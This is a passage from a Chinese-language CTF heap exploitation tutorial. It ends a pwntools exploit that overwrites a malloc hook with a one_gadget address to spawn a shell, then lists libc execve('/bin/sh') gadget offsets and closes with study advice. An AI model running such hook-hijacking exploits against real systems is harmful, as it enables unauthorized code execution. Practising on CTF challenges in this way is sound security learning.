add(0x68)#4#申请了刚才填充的内存
edit(4,b'\x00'*0x13+p64(getshell))#把hook函数劫持到提权oneshot程序流

add(0x20)#调用分配内存从而调用hook，然后得到权限

ia()
'''0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

`exp`中注释相关



注意`buuctf`里面会给好`libc`



### 0x05 最后

0x02的例题，堪称堆攻击世界的ret2text，0x03相当于ret2sys，而0x04则相当于ret2libc。但是实际上，堆的世界还远远不止这些……感谢各位师傅陪我走这一程，请继续多做题多学习，我们在更高的地方再见！
